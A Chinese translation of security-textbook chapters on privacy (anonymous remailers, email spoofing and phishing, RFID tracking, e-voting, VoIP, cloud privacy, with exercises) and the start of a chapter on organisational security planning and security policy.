发件人创建一条消息并选择几个协作主机。发件人指定最终收件人（称之为节点 *n*），并将目的地说明与内容一起放置。发件人随后选择一个协作主机（称之为节点 *n*–1），用节点 (*n*–1) 的公钥加密该包裹，并将显示节点 (*n*) 的目的地说明与加密包裹一起放置。发件人选择另一个节点 (*n*–2)，加密，并添加节点 (*n*–1) 的目的地说明。因此，发件人构建了一个多层包裹，消息在内部；每一层增加一层加密和另一个目的地。

每个重发器节点仅知晓它从何处收到包裹以及下一步发送给谁。只有第一个重发器知晓真实发件人，只有最后一个重发器知晓最终收件人。因此，没有重发器能破坏发件人和收件人之间的关系。

尽管这种策略是可行的，但涉及的开销表明，仅当匿名性至关重要时才应使用这种方法。这一通用概念引出了第 6 章中描述的保护匿名性的网络 `TOR`。

####### 阅后即焚电子邮件

一些服务声称通过启用阅后即焚消息来保护你的隐私。也就是说，你可以使用该服务发送文件、照片或消息，服务会在消息到达目的地后立即销毁。正如我们之前指出的，风险相当大。Wortham [WOR14] 指出：“通过网络和移动设备共享的内容面临被拦截或最终被检索的风险，即使传输它们的硬件和软件公司承诺不会这样做。全球主要银行、企业、零售商以及许多初创公司都暴露出了安全漏洞。”

***

**电子邮件副本可能无限期地保留在收件人和中间节点处。**

***

诸如 Snapchat 之类的服务承诺删除你发送内容的所有痕迹，以防窥探。但有时宣称与现实不符。Snapchat 变得极其成功——成功到拒绝了 Facebook 数十亿美元的收购要约。2014 年，联邦贸易委员会 (FTC) 指控 Snapchat 错误陈述了其保护用户信息的方式。

在指控中，FTC 指出 Snapchat 声称其消息（通常称为 snaps）无法保存。但实际上有几种方法可以保存它们，包括使用第三方应用程序或通过截屏消息等变通方法。

那并非唯一的隐私违规行为。Snapchat 还“传输用户的位置信息并收集通讯录联系人等敏感数据，尽管它声称不收集此类信息。委员会称，松散的政策未能保护‘查找好友’功能，导致安全研究人员在最近的一次安全漏洞中编译了一个包含 460 万用户名和电话号码的数据库。” [WOR14]

此处的教训很明确：如果你打算使用某项服务或产品来保护隐私，请首先寻找关于保护如何提供及其是否真正有效的证据。

###### 伪造与垃圾邮件

电子邮件几乎没有真实性保护。`SMTP` 协议中没有任何机制检查以验证列出的发件人（From: 地址）是否准确，甚至是否合法。伪造电子邮件的源地址并不困难。这一局限性助长了垃圾邮件的发送，因为无法追踪垃圾邮件的真实发件人。有时表面上的发件人会是收件人认识的人，或与收件人在同一个常用邮件列表中的人。伪造这种表面发件人旨在为垃圾邮件增加可信度。

#### 网络钓鱼

网络钓鱼是一种垃圾邮件形式，发件人试图说服收件人透露个人数据，例如银行详细信息。发件人通过伪造令人信服的源地址或使用欺骗性的域名来增强钓鱼邮件的可信度。

这类电子邮件诱骗轻信的用户透露敏感个人数据。由于互联网监管有限，几乎无法控制这些威胁。用户意识是最好的防御。

######## 概述

电子邮件从发件人到收件人全程暴露，途中有许多拦截点。除非电子邮件经过加密，否则几乎无法防止其在传输过程中被访问。

在企业、政府、学校和其他组织中，网络管理员和管理者可能会阅读发送的任何电子邮件。

### 9.7 新兴技术的隐私影响

在本节中，我们将探讨几种新兴技术的隐私影响。这些技术本身并不影响隐私，但其应用存在风险。第一种是一种广播技术，可用于追踪物体或人员。第二种是一组用于辅助选举的技术。第三种技术涉及提供语音级电话通话的方法变革。最后，基于我们在第 8 章中提出的云安全问题，我们将讨论与云计算相关的特定隐私问题。

#### 射频识别

**射频识别** (**RFID**) 是一种使用称为 **RFID 标签** 的小型、低功耗无线无线电发射器的技术。这些设备可以小如沙粒，成本每个不足一美分。标签调谐至特定频率，且每个标签都有一个唯一的 ID 号。当标签从远程产品（此处原文应为 reader/读写器）接收到其信号时，它会响应发送其 ID 号信号。许多标签没有自己的电源，而是从接收信号的行为本身中获取发送信号的电力。因此，这些设备可以保持被动状态，直到接收到来自询问读写器的信号。

一些标签可以通过手术植入人或动物的皮下。其他的可以嵌入信用卡或身份证件中，还有一些可以放置在运输或库存标签上。

它们能够接收并广播可接收信号的距离大约从五厘米（功率最小）到数米（功率最大）不等。一些发射器拥有自己的电源（通常是电池，但也可以是太阳能收集器或其他相关设备），可以传输更远的距离。随着接收器性能提升和电源变得更便携，接收距离将会增加。

技术进步使得 RFID 标记随时间推移变得更小。例如，某些 RFID 标记现在可以制成线状，如图 9-4 所示。


**图 9-4** 嵌入线缆中的 RFID 芯片（照片经 Primo1D 许可复制。版权所有 2014 Primo1D）

RFID 标签的当前用途包括

- 公共交通系统票卡；也用于收费公路收费器
- 患者记录和医疗设备追踪
- 体育赛事计时
- 娱乐设施的门禁和计费
- 库存标签
- 防伪检测
- 护照和身份证；也用于牲畜和宠物的植入式身份标记

从隐私角度来看，RFID 标签的两种应用尤为值得关注，我们将在下一节中展示。

##### 消费品

假设你买了一件新衬衫。如果制造商在衬衫中嵌入了 RFID 标签，该标签将协助商家处理你的购买，就像条形码多年来所做的那样。但商品上的条形码仅标识制造商的产品，例如 L.L. Bean 绿色格子法兰绒衬衫，中号，以便连接条形码读取器的自动收银机能为该产品收取适当价格。RFID 标签不仅可以标识产品和尺寸，还可以标识批次和发货批次；也就是说，标签的值指定了一件特定的衬衫。衬衫中的唯一 ID 帮助商家跟踪库存，知道这件衬衫来自在销售展示架上放置了 90 天的发货批次。如果因缺陷退货，该标签还能让制造商准确确定其生产时间和地点，这对质量控制可能很重要。

当你走在街上时，你的衬衫会对范围内广播其信号的任何接收器做出响应。使用当今技术的低功耗标签，你必须非常靠近接收器才能让其获取你的信号，最多几厘米。一些科学家认为未来接收距离会延长，另一些人认为当今技术已允许高功率读写器在一米外拾取信号。如果距离是几厘米，你几乎必须擦过接收器才能让它追踪你衬衫上的标签；如果是一米，当你走过时，某人可以在人行道边缘放置一个读写器。

你的衬衫、鞋子、笔、钱包、信用卡、手机、媒体播放器和糖果包装纸可能各自都有一个 RFID 标签。宠物主人甚至在宠物皮下植入 RFID 标签，以便走失的动物能与主人团聚。当你携带多个标签从一个地点移动到另一个地点时，你就让追踪变得容易。这些标签中的任何一个都允许秘密追踪；其他的则提供了冗余。曾经只存在于科幻小说中的追踪场景现在已接近现实。

这些读数会随着你的日常活动而累积。如果一个城市的每个街角都安装了读写器，就有可能组装出你游荡轨迹的完整档案；时间戳会显示你在两个接收器之间停留了多久。因此，开发一套能够追踪你所有行踪、确定你的习惯，从而预测你何时最容易遭受犯罪侵害的系统，是可以想象且很可能可行的。

另一个隐私顾虑是这些标签透露了关于你的哪些信息：员工证上的一个标签可能泄露你为谁工作，药瓶上的另一个可能透露病情，昂贵钥匙扣上的还有一个可能暗示你的财务状况。目前你可以将员工证等物品直观地藏在口袋里；有了 RFID 技术，你可能必须更加小心地屏蔽不可见的无线电信号。

***

**RFID 标签会响应任何足够接近以拾取信号的读写器。**

***

##### 个人用 RFID 标签

给衬衫贴标签是碰运气的事。如果你买到了那种衬衫，你就会有个标签让你被监控。但如果你买的是无标签衬衫，或找到并剪掉标签，或禁用标签，或决定不穿衬衫，你就无法被追踪。

有些人选择让自己可被识别，无论穿什么。一些患有罕见病症的人已经在体内永久植入了 RFID 标签。这样，即使病人被昏迷送往医院，医生也可以扫描标签，获取该人的唯一编号，并通过该编号查找病人的医疗记录。类似的方法被用于允许动物跨越检疫边境，或唯一标识宠物或珍贵赛马等动物。

在这些例子中，个人自愿允许植入标签。但请记住，一旦标签被植入，它们将响应任何合适的接收器，因此我们在街上行走时隐私被侵犯的例子依然成立。

RFID 支持者急于指出，该技术目前不支持远距离读取最简单的标签，且接收器价格昂贵，构建能够追踪某人所有行踪的网络成本过高。正如我们在密码学讨论中指出并在安全软件演示中重申的那样，你不应仅根据当前的技术可能性或经济可行性来制定安全策略。

###### 安全与隐私问题

我们已经描述了 RFID 的两个主要隐私问题：无论个人走到哪里都能追踪其行踪，以及辨别关于个人的敏感数据的能力。还有其他相关问题，包括正确性和预测。要了解正确性为何是个问题，请考虑读取传感器可能发生故障，或处理 ID 的软件可能失效；这两种情况都可能导致身份误判。当接收器显示你在某地时，你如何反驳你不在那里的指控？另一种可能的故障是 RFID 标签伪造。同样，传感器会读取到与你关联的标签。你能证明你不在传感器附近的唯一方法是有不在场证明，证明你实际在别处。

同样，正如 Sidebar 9-8 所示，关于你收集的数据可用于进行可能不正确的预测。即使预测正确，你可能也希望对基于传感器捕获数据的预测而做出的关于你的决定有发言权。

####### 侧边栏 9-8 利用你的习惯进行保护和预测

随着传感器价格暴跌、体积微小易于嵌入，制造商正在将传感器植入万物。“普适计算”和“可穿戴计算”能让生活更简单，使你能以几十年前不可能的方式进行导航、故障排查和追踪人员及物品。Taub [TAU14] 指出，智能手环和智能手表等物品可监测你的生命体征和活动。智能泵可在你需要时自动注射胰岛素或止痛药。“为了更健康的生活，传感器很快可能会给我们提供全家、全屋的更新——从浴室水槽到车库。”

Grush 等公司提供含有加速度计和陀螺仪的智能牙刷，反馈孩子是否正确握持和刷牙。结果可传输给牙医，以便其监控刷牙行为。

Owlet Smart Sock 专为监测婴儿设计。“将 Owlet Smart Sock 裹在婴儿脚踝上，你就能用 App 监控体温、心率、血氧水平、睡眠质量和翻身情况。” [TAU14] 一旦孩子的智能尿布湿了，你可以扫描尿布上的二维码。“尿布中的试剂可检测婴儿是否患有尿路感染、脱水或可能正在出现肾脏问题。” 类似的传感器和应用监测你是否锻炼、服药、饮食得当，或改变了习惯（例如，不按惯例开关灯）。

使用这些传感器的公司有时意识到其隐私影响。“‘令人毛骨悚然的情况是我们将高度重视，’福特电气电子研究总监 Jim Buczkowski 说。‘消费者需要能够选择加入或退出被监控。’”


在许多情况下，人们呼吁加强监控。Wald [WAL14] 报道，汽车行业专家正考虑安装类似飞机上使用的“黑匣子”。“解开像雪佛兰 Cobalt 那样的问题——故障点火开关倾向于熄火并禁用安全气囊——很难，”一位专家说，“所以‘我们必须全力利用一切可用手段，更快地弄清真相。’” 许多新车现已装有黑匣子；尚不清楚黑匣子是否很快会成为强制配置。

Wald 指出，在飞机上保护隐私比在汽车上更容易。“大型客机配备的设备会复制进入飞行数据记录器的信息，格式便于常规飞行后轻松下载。分析师汇总数千次飞行的信息，寻找潜在问题的迹象，如极端机动，即使未造成死亡或伤害。而在汽车中，黑匣子捕获的数据少得多，常规行程不捕获任何数据。” 而且因为你最可能驾驶自己的车，黑匣子可能记录超速或穿梭车流等不受欢迎行为的证据。

***

Juels [JUE05] 提出了几种恢复 RFID 隐私的方法。其建议包括：炸毁（禁用标签）、屏蔽（屏蔽标签以阻止读取器访问）、重编程（使标签发射不同号码）和加密（使输出选择性可用）。

RFID 技术仍处于早期，但其使用增长迅速。与类似敏感技术一样，在用途普及前保护隐私会更容易。

#### 电子投票

投票是另一个隐私至关重要的领域。我们希望投票保密，同时又要有办法证明所有收集的选票都是真实的。通过对纸质选票的严格控制，我们基本能满足这两个要求，但此类系统的效率低下。我们希望利用计算机化投票系统提高效率，同时不牺牲隐私或准确性。本节探讨计算机化投票的隐私方面，更广泛的安全问题见 Chapter 13。

##### 隐私与投票流程

生成和计数选票是选举过程中最明显的步骤；建立和维护合格选民名单、记录谁已投票（并防止一人投两票）、支持缺席投票、协助去错投票站的选民、向选举总部传输选举结果是其他重要步骤。每一步都有明显的隐私影响。例如，在某些政治文化中，可能希望保持谁已投票的隐私（防止对未投强势候选人的人进行报复）。同样，从其他安全研究中我们知道，保护传输给选举总部的选票隐私也很重要。

2005 年，美国国家科学院计算机科学与电信委员会 (CSTB) [NRC05] 发布了电子投票研究。报告提出了任何全面的电子投票辩论都必须解决的问题。例如，CSTB 询问电子投票流程将如何保证选民登记和个别选票的个人隐私。此外，研究强调公众必须对流程有信心；否则公众不会信任结果。

##### 隐私保护技术

投票的关键隐私问题是在确保隐私的同时保证可问责性。许多方法（例如，用选举委员会的公钥加密选票）可保护机密性。难点在于确保只有授权人员能投票（即每张计数的选票都是一位授权选民提交的），且授权人员只能投一次。如果不需要确保个人选择的隐私，这些特性同样容易处理。任何将可计数选票与特定具名个人关联的事物都会破坏选民隐私。

芬兰、爱沙尼亚、荷兰及其他一些国家已开展电子选举试点项目。在芬兰，实验失败了，因为选民无法确定他们的选票是否已被接受（实际上并未被接受）。在爱沙尼亚，独立选举审查员发现所用程序和软件存在许多问题，尽管他们并未指控有任何选票被错误计数 [HAL14]。荷兰在 2004 年和 2006 年使用了电子系统，但随之而来的争议损害了公众对投票过程的信任。因此，该技术于 2008 年被弃用。在这些有记录的案例中，个人投票的隐私性并未受到质疑；受关注的是选举的其他公平性属性。

这些情况表明，在电子投票的技术和公众认知方面，还需要做大量工作。隐私只是需要新的、可信赖发展的一个领域。

#### VoIP 和 Skype

传统电话的隐私方面已被相当充分地理解：电话公司是受监管的垄断企业，需要维护其客户通信的机密性。例外情况发生在为执法目的和紧急情况而制定的法定情形下。此外，该技术相对抗窃听，最大的风险暴露在端点。

蜂窝电话和基于互联网的电话服务显著改变了这一局面。**IP 语音**（**VoIP**）是一种通过互联网传输语音流量的协议。主要的 VoIP 运营商包括 Skype、Google Talk 和 Vonage。该服务将您的模拟语音转换为通过互联网发送的数字信号；您使用连接到计算机的电话听筒或麦克风和扬声器。例如，要从伦敦打电话到里约热内卢，您需要启动 VoIP 应用程序，输入里约热内卢的电话号码。里约热内卢的本地办事处会拨打该号码，并将该呼叫连接到其互联网服务器。（如果双方端点都使用 VoIP，过程会更简单。）

VoIP 的优势在于成本：对于已经拥有固定价格宽带互联网连接的人来说，增加 VoIP 仅需承担远程端本地连接的费用和软件费。但正如我们在其他互联网应用中所见，隐私可能会被牺牲。即使语音流量经过可靠加密，电话呼叫的源和目的地仍会通过数据包头部在一定程度上暴露。

#### 云中的隐私

云计算正成为许多商业模式的基础，从关联计算机产品到提供备份存储。在第 8 章中我们探讨云的安全问题；在此，我们转向其隐私问题。

2009 年，Robert Gellman 为世界隐私论坛撰写了一份报告 [GEL09]，探讨了使用云的隐私影响。他讨论了对于某些信息以及某些商业和政府用户而言，在云中共享信息在最坏的情况下可能是非法的，更可能是受限的，甚至可能影响所共享信息的地位或保护。Roland Trope 和 Claudia Ray [TRO10] 为律师和法官提供了这些问题的大量示例。他们描述了许多云服务提供商的使用条款如何破坏美国法律体系中通常存在的律师-客户保密特权保护。例如，将某些法律文件放入云中，律师可能会失去对其内容的控制；事实上，一些云服务提供商认为内容一旦进入云，他们就是所有者。

Gellman 描述了即使没有法律禁止用户向云服务提供商披露信息，披露仍可能产生后果。例如，存储的信息可能比创建者手中的原始信息拥有更弱的隐私保护。事实上，“政府机构和私人诉讼当事人都可能比从信息创建者那里更容易从第三方获取信息。”此外，由于隐私法律因国家而异，云服务器的位置会影响云用户的数据隐私和机密性。

Gellman 列出了其他几项重要发现，供您在云中存储敏感信息前考虑：

• 云中信息的位置可能对信息的隐私和机密性保护以及处理或存储信息者的隐私义务产生重大影响。

• 云中的信息可能同时拥有多个法律位置，并产生不同的法律后果。

• 法律可能强制云服务提供商检查用户记录以寻找犯罪活动及其他事项的证据。

• 法律的不确定性使得难以评估云中信息的地位以及用户可获得的隐私和机密性保护。

• 应对云计算隐私和机密性风险的措施包括云服务提供商制定更好的政策和实践、修改法律以及用户更加警惕。

许多云服务提供商提供令人信服的论据，称云比传统计算和存储更安全。但正如 Gellman 以及 Trope 和 Ray 所建议的，购买者自负原则同样适用于云。在将任何东西放入云之前，请阅读服务条款和隐私政策，并记住供应商可以随时更改这些协议。事实上，Trope 和 Ray 指出，即使您终止与云供应商的协议，供应商仍可能根据服务条款保留您的备份副本。

#### 新兴技术的结论

技术持续涌现和成熟，我们仅提供了少数具有巨大技术前景但也伴随相当大隐私风险的示例。如果您正考虑采用此类技术，请务必评估隐私影响，并在技术演进过程中持续跟踪。

我们在安全方面的经验表明，如果在系统生命周期早期考虑安全，将有更多安全选项可用。经验反复表明的另一点是，向一个近乎完成的系统添加安全措施是困难的，甚至是不可能的。基于这两个原因，隐私和安全分析应伴随技术和应用开发同步进行。

不幸的是，对于所有新兴技术，似乎都存在财务压力，要求先创建设备或服务，稍后再处理使用和隐私问题。这种方法正是设计任何系统的错误方式。不幸的是，人们似乎都是从技术出发，反向推导使用它的系统。开发方法应正向进行（指定必要需求，包括隐私考量，并开发系统以可靠地实现这些需求），以内置隐私设计特性和控制，也应反向进行，调查隐私方面可能出现的问题，然后添加设计特性以防止这些疏漏。

### 9.8 领域发展方向

Nissenbaum [NIS11] 描述了互联网的演变，“从一个用于共享计算机资源和数据集的晦涩工具，旨在供相对较少的专家使用，变成了一个无处不在、多功能的媒介，被全世界数百万人使用。” 它被概念化为“信息高速公路，实现信息和商业的快速流动；到网络空间，一个免受任何国家法律约束的新边疆；到 Web 2.0，一个充满服务和内容的聚会场所，其中大部分由用户自己生成。” 随着本章所示，安全的隐私方面正在迅速扩展。我们作为计算机科学家必须问自己的一个问题是：“仅仅因为我们*能*做某事，就*应该*做吗？” 我们可以结合海量数据，但这样做的收益是否值得冒险？

尽管 Sweeney [SWE04] 等研究人员做出了最大努力，人们在保护隐私方面的尝试仍显不足，随后却对个人隐私受到侵犯表示惊讶。安全匿名化数据以同时满足人口统计研究和隐私保护的需求，这一主题必将继续扩展。在为隐私保护数据挖掘而匿名化数据库数据方面，已有一些有希望的结果。Clifton 及其同事 [CLI03, KAN04, VAI04] 以及 Malin 和 Sweeney [MAL02] 正在领导一些重要工作。

一个主要的跨国组织需要强烈敦促各国——尤其是美国——为全球公民的数据隐私制定一个综合框架。计算机安全界可以而且应该继续证明这一问题的重要性，但最终答案必须是政治层面的。各种隐私权利组织，如民主与技术中心、电子隐私信息中心 (EPIC)、Privacy.Org 和 Privacy International，以及专业计算机学会，如 IEEE 和 ACM，必须继续他们的努力。

互联网隐私不会因大众需求而自动实现。广告商、内容提供商、垃圾邮件发送者和欺诈者从在线数据收集中获得太多优势，不会改变他们的做法。由于信息追踪者和恶意攻击者使用一些相同的技术，针对恶意代码的良好防护也将对个人互联网隐私产生积极影响。用户知识的增加也是如此。

衡量对一个主题关注程度的一个标志是否有完整的研讨会和会议专门讨论它。计算机自由与隐私会议自 1991 年起每年举办一次（参见 [`www.cfp.org/`](http://www.cfp.org/)）。其他会议关注更窄的主题，如数据挖掘或选举隐私。ACM、IEEE 和 SIAM 等专业学会赞助这些会议并定期在其网站上推广。

约翰霍普金斯大学的 Avi Rubin 挑战他的学生探索针对隐私的新型攻击和保护。由于他在电子投票安全方面的工作，他领导了一个美国国家科学基金会项目，以提高电子投票的可靠性和可信度。Rubin 担任技术总监的约翰霍普金斯信息安全研究所已经产出了几项关于隐私漏洞的优秀研究。

佐治亚理工学院的 Annie Antón 开发了分析隐私政策的工具。她与 ThePrivacyPlace.Org 合作，这是一个跨学科研究活动，包括北卡罗来纳州立大学和卡内基梅隆大学的研究人员。

Bob Gellman 是一位备受尊敬的隐私问题顾问。他的网站 [www.bobgellman.com](http://www.bobgellman.com) 包含大量优秀的隐私资源，包括不同国家隐私保护的比较。

*IEEE Security & Privacy* 杂志在其“隐私利益”栏目中，每期至少刊登一篇关于隐私的文章。在那里，领先的隐私从业者、研究人员和决策者讨论隐私领域的最新动态。此外，Susan Landau 撰写了两篇关于一系列美国国家安全泄露事件的文章；它们可以在 2013 年 7/8 月刊和杂志网站上找到。2014 年 7/8 月刊是一个专刊，专门探讨情报机构如何利用技术进行监视，以及这对我们的隐私意味着什么。Landau 的著作 [DIF07, LAN11] 深入探讨了政府监视对隐私和安全的影响。

### 9.9 结论

在本章关于隐私的内容中，我们探讨了安全、隐私、技术和信息如何相互作用。一方面是仅因计算机的算力和容量而成为可能的新能力。另一方面是人权和隐私期望。正如我们所展示的，这两方面不必然冲突：隐私和技术不一定是对立的。

建立隐私的第一步与计算机安全的其他领域相同：我们必须首先定义一个隐私**策略**，记录我们需要什么样的隐私。Ware 委员会的早期工作为信息隐私奠定了非常重要的基本原则。

接下来，我们研究了个人、身份、属性和认证之间的相互作用，这类似于我们在第 5 章中研究主体、客体和访问权限的方式。电子邮件和 Web 中隐私的具体例子展示了隐私在计算机化信息处理中是如何被维护或未被维护的。最后，电子投票、互联网电话、RFID 和云等新兴主题向我们表明，在快速变化的技术中，我们需要确保隐私利益得到维护。

隐私权既有政治维度，也有技术维度。技术或许是较容易的部分：一旦我们在政治上决定要保留哪些隐私权，通常就能让技术顺应这一决定。但我们对安全的研究表明，除非我们要求、规划并将安全或隐私设计到我们的产品和流程中，否则它们不太可能自动实现。

### 9.10 练习

**1.** 你被要求参与为大学学生、教职员工和附属人员开发基于 RFID 的识别卡的需求。首先，列出该卡的五到十种不同用途。其次，从该用途列表中，详细说明卡需要向接收器广播什么数据以实现这些用途。第三，识别校园内秘密安装的流氓接收器可能利用这些数据进行的用途。哪些流氓访问威胁个人隐私？以何种方式？危害程度如何？

**2.** 你被要求为一个秘密政府组织执行类似的练习。列出该卡的公开和隐蔽用途，列出需要广播的数据，并识别数据的潜在滥用。

**3.** 如果你为选举提供电子投票机，你能做些什么来侵犯个人的隐私权？也就是说，建议一些不易察觉的方法，你可以操纵机器，使得选举后有可能确定谁投给了哪位候选人。

**4.** 假设一家电话公司保存了其处理的每个电话通话的记录，显示主叫号码、被叫号码，以及通话的时间、日期和持续时间。电话公司可能如何利用这些记录？商业营销人员可能如何利用？竞争对手电话公司可能如何利用？政府可能如何利用？哪些用途侵犯了个人隐私权？

#### 5. 请参考 9.5 节 中 Turow 关于互联网购物调查的结果

许多人认为互联网商务的某些常见做法是非法的。应该通过法律将这些做法定为非法吗？为什么？

#### 6. 讨论认证的代数及其对隐私的影响

即假设一种双因素认证的情况，将两个因素称为 A 和 B。考虑每个因素强或弱的四种组合情况。你会对以下结果得出什么结论：弱 A 和弱 B；弱 A 和强 B；强 A 和弱 B；强 A 和强 B？顺序重要吗？如果两个因素属于同一类型（你知道的、你拥有的、你生理特征的）有影响吗？如果增加第三个因素 C 会怎样？

#### 7. 你忘记了密码，于是点击“忘记密码”让系统通过电子邮件发送新密码

有时网站会告诉你原来的密码是什么；其他时候，它会发送一个新的（通常是临时的）密码。这两种方法各有什么隐私影响？

#### 8. 陈述支持和反对为个人互联网数据设置所谓“老化功能”的论据

即某些帖子可能在一个月后自动删除，其他的在一年后，还有一些在十年后。这是一种确保隐私的可行方式吗？为什么？

#### 9. 学校利用学校提供的计算机在课外录制学生视频，这合乎道德吗？

什么道德原则能证明这种监控是正当的？学校是否同样有理由记录所有网络行为？所有按键操作？请用道德原则支持你的论点，而不仅仅是个人观点。

#### 10. 描述一种信息来源比信息本身更敏感的情况

解释为什么敏感数据的总和也可能是敏感的。

#### 11. 提出一个过滤器设计，以区分泄露询问者敏感数据的查询与不泄露任何信息的查询

什么特质可能表明一个查询是敏感的？

#### 12. 找出三个发布其隐私政策的网站

比较它们的政策。哪个提供的隐私保护最多，在什么情况下？哪个提供的最少？如何改进每个网站的隐私保护？如何判断声明的隐私政策是否已完全且正确地实施？

#### 13. 法律保护是否是针对隐私侵犯的有效对策？

解释利用法律提供隐私保护的困难或有效性。

## 10. 管理与事件

***

本章内容：

- 安全规划
- 事件响应与业务连续性规划
- 风险分析
- 处理自然灾害和人为灾害

***

在本章中，我们将介绍安全管理的概念。本书的许多读者是或将成为从业者或技术人员，即设计、实施和使用安全的人员。设备、算法、架构、协议和机制对这些读者至关重要。

一些技术人员认为，安全仅涉及设计一个更强（更快、更好、更大）的设备，或选择最好的加密算法。这些确实是重要的考量因素。但如果你构建的东西没人采用怎么办？也许用户界面晦涩难懂。或者人们无法弄清楚如何将你的产品集成到任何现有系统中。也许它并没有真正解决潜在的安全问题。也许它限制过度，阻碍用户完成实际工作。又或许它是或看起来太昂贵。技术——即使是最好的产品——也必须被使用且易用。

在本章中，我们将探讨两个重要主题：安全如何被管理以及如何被使用。这些主题关乎人类行为，也关乎计算的商业层面。我们还将涉及安全威胁的物理层面：自然灾害和人为灾害。

### 10.1 安全规划

多年前，当大多数计算工作在大型主机上完成时，数据处理中心负责保护工作。安全责任不在程序员或用户手中，而是掌握在计算中心工作人员自己手中。这些中心培养了安全专业知识，并在后台实施了许多保护活动，用户无需意识到保护需求和实践。

但从 20 世纪 80 年代开始，个人计算机的引入和计算的普及改变了我们许多人工作和与计算机交互的方式。特别是，安全的很大一部分责任已转移给用户，而不再由计算中心承担。遗憾的是，许多用户未意识到（或选择忽视）这一责任，因此他们不应对所面临的风险，也不实施简单的措施来预防或缓解问题。

你可能在新闻报道中见过许多此类疏忽的常见例子。此外，重要数据看似隐蔽的特性加剧了这种疏忽：如果是纸质文件我们会加以保护，但以电子形式存储时却置之不理。例如，一个人可能会小心地将公司机密记录的纸质副本在夜间锁好，却让助理或经理桌上的个人计算机持续运行。我们从笔记本电脑、智能手机和平板电脑访问敏感数据，却将这些设备遗留在餐厅、机场、酒吧或咖啡馆的桌椅上。在这种情况下，路过的好奇或恶意人士可以检索机密备忘录和数据。同样，笔记本电脑和工作站上的数据通常比旧的、更孤立的系统更容易获取。例如，过去笨重的磁盘组和磁带已被软盘、CD、DVD、闪存驱动器和固态硬盘等介质取代，这些介质能存储海量数据却轻松装进口袋或公文包。此外，我们都认识到一张 CD 或 DVD 可能包含的数据量是印刷报告的许多倍。但由于报告是显而易见的可见风险而磁盘不是，我们将计算机介质置于显眼处，方便他人借走或偷走。

在所有情况下，无论用户发起某个计算动作还是仅与活动应用程序交互，每个应用程序都有与数据、程序和计算机器相关的机密性、完整性和可用性需求。在这些情况下，用户缺乏敏感度：他们往往不了解使用计算机所涉及的安全风险。

基于这些原因，每个使用计算机创建和存储宝贵资产的组织都应进行彻底有效的安全规划。**安全计划** 是一份描述组织将如何应对其安全需求的文档。该计划需定期审查和修订，以适应组织安全需求的变化。

***


# 企业安全始于一份描述组织将如何应对其安全需求的安全计划。

## 组织与安全计划

考虑一个简单的例子：你未来几天有几件事要做。你可以记在脑子里，或写在纸上或电子设备上。记在脑子里，容易遗漏一些，或专注于不那么重要的活动。把事情记下来会促使你花片刻时间思考还需要做什么。还有一份可供参考的记录清单，能给你一个结构，提醒你重要事项，或帮你在有几分钟空闲时挑选一项能完成的任务。

### 一个好的安全计划是当前安全实践的正式记录，外加一个有序变更的蓝图，旨在改进这些实践。

通过遵循该计划，开发人员和用户可以衡量拟议变更的效果，最终带来进一步的改进。安全计划的影响也很重要。一份精心编写并得到管理层支持的计划，会通知员工安全对管理层很重要（因此对每个人都很重要）。因此，安全计划必须包含适当的内容，并必须产生预期的效果。

在本节中，我们将学习如何定义和实施安全计划。我们重点关注编写安全计划的三个方面：应包含什么内容、由谁编写，以及如何获得对它的支持。然后，我们将探讨安全计划的两个具体案例：业务连续性计划，旨在确保组织在发生计算机安全事件时仍能继续运作；以及事件响应计划，旨在组织活动以应对事件危机。

## 安全计划的内容

安全计划识别并组织计算系统的安全活动。该计划既是对当前情况的描述，也是改进的路线图。每个安全计划必须解决以下七个问题：

- **策略**，表明计算机安全工作的目标以及相关人员为实现这些目标而努力的意愿
- **现状**，描述计划制定时的安全状态
- **需求**，推荐满足安全目标的方法
- **推荐控制措施**，将控制措施映射到策略和需求中识别出的漏洞
- **责任**，记录谁负责每项安全活动
- **时间表**，确定何时执行不同的安全功能
- **维护**，规定定期更新安全计划的结构

创建和更新安全计划有许多方法。一些组织拥有正式的、已定义的安全规划流程，就像它们可能拥有已定义和接受的开发或软件维护流程一样。其他组织则寻求安全专业人员的指导，了解如何进行安全规划。但无论格式如何，每个安全计划都包含相同的基本材料。以下各节将详细阐述安全计划的七个部分。

### 策略

安全计划陈述组织的安全需求和优先级。安全策略是一份高层级的目的和意图声明。最初，你可能会认为所有策略都是一样的：防止安全漏洞。但实际上，策略是最难写好的部分之一。

> **安全策略记录了组织的安全需求和优先级。**

考虑不同类型组织的安全需求。组织认为其最宝贵的资产是什么？一家制药公司可能将其新药科学研究以及销售和营销策略视为最重要的资产。一家医院可能认为保护患者记录的机密性最为关键。一家电视工作室可能决定其过往广播的档案最重要。一家在线商家可能高度重视其网络业务，以及相关的后端订单接收和处理系统。一家证券交易公司最关心其交易记录的准确性和完整性，包括已执行交易的日志。正如你所见，组织看重的事物各不相同，基于此分析，最重大的威胁也会因组织而异。在某些情况下机密性至上，但在其他情况下可用性或完整性最为重要。

正如我们在本章后面将讨论的，安全强度、成本、用户不便等方面存在权衡。例如，我们必须决定是实施非常严格——且可能不受欢迎——的控制措施以防止所有安全问题，还是仅在安全漏洞发生后减轻其影响。因此，策略声明必须回答三个基本问题：

- **谁**应该被允许访问？
- 应允许访问哪些系统和组织**资源**？
- 每个用户应被允许对每个资源拥有何种**类型**的访问权限？

策略声明应规定以下内容：

- 组织在安全方面的**目标**。例如，系统是否应防止数据泄露给外部人员，防止因物理灾害导致的数据丢失，保护数据完整性，还是防止计算资源故障导致的业务损失？优先级更高的是服务客户还是保护数据？
- 安全**责任**归属。例如，责任是否应由一个小型计算机安全小组承担，由每位员工承担，还是由相关管理人员承担？
- 组织对安全的**承诺**。例如，谁为员工提供安全支持，安全在组织架构中处于什么位置？

### 当前安全状态的评估

为了能够规划安全，组织必须了解其可能面临的漏洞。组织可以通过执行**风险分析**来确定漏洞：即对系统、其环境以及可能出错的事物进行系统性调查。风险分析构成了描述当前安全状态的基础。该状态可以表示为组织资产清单、对资产的安全威胁，以及保护资产的现有控制措施。我们将在本章后面更详细地探讨风险分析。

计划的状态部分还定义了安全责任的界限。它不仅描述了要保护哪些资产，还描述了谁负责保护它们。计划可能会注明某些群体可被排除在责任之外；例如，与其他组织的合资企业可能指定由一个组织为所有成员组织提供安全保障。计划还定义了责任边界，特别是在涉及网络时。例如，计划应明确谁为网络路由器、通往远程站点的租用线路，或云中的数据或处理提供安全保障。

